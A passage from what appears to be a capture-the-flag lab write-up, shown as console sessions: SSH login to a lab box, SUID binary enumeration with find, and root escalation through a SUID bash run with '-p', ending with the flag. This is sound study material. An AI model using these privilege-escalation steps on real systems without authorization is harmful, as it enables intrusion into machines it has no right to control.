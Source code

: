 ```console
root@kali:~$ chmod 400 id_rsa

root@kali:~$ ssh oscp@192.168.179.157 -i id_rsa
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


0 updates can be installed immediately.
0 of these updates are security updates.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sat Jul 11 16:50:11 2020 from 192.168.128.1
-bash-5.0$ id
uid=1000(oscp) gid=1000(oscp) groups=1000(oscp),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
```

In the above output we see that the **oscp** user belogs to lxd group, we can exploit that to get root, but by listing the SUID binaries, I was able to detect the bash binary, this allows us to elevate our privileges in an easy way.

```console
-bash-5.0$ find / -perm -u=s -type f 2>/dev/null
...
/usr/bin/bash
...
```

## Privilege Escalation
### SUID Binary

To get root, we just need to run the bash command with the -p option.

```console
-bash-5.0$ /usr/bin/bash -p
bash-5.0# id
uid=1000(oscp) gid=1000(oscp) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd),1000(oscp)
bash-5.0# cat flag.txt 
d73b04b0e696b0945283defa3eee4538
```

### System Service
